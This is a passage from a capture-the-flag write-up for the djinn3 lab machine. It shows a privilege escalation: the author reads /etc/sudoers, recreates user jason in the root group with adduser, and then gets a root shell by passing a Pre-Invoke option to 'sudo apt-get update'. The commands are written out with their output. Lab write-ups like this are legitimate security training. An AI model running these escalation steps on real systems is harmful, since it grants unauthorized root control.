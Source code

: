 added the user harshil to the root group and we can't run sudo since we are not in the sudoers group however we can read /etc/sudoers which reveal there is a user jason that can run apt-get as root. 

Although we do not have the creds for jason we can simply overwrite the current jason user by creating a new one with adduser.

## Pivoting to Jason + Root
---
```
saint@djinn3:~$ sudo adduser jason -gid=0
Adding user `jason' ...
Adding new user `jason' (1004) with group `root' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []: Jason
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
saint@djinn3:~$ su jason
Password: 
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason: 
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get
jason@djinn3:/home/saint$ 

```

#### GTFO Bin

The priv esc from here is fairly simple since there is a gtfo bin that allows to sudo escape and excute sh when invoking sudo apt-get update.
```
jason@djinn3:/home/saint$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# 
```
